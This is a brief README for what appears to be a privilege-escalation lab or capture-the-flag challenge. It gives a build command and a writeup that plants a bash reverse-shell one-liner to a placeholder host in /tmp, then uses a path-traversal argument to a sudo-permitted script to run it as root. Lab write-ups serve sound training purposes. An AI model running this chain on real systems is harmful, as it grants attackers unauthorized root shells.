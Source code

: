 # Privesc n°2

## Déploiement

```bash
sudo bash build.sh
```

## Writeup

```bash
mkdir /tmp/aa-deployment/
nano /tmp/aa-deployment/run.sh # bash -c 'bash -i >& /dev/tcp/X.X.X.X/XXXX 0>&1'
sudo /bin/bash /opt/app/script.sh '../../../../tmp/aa'
```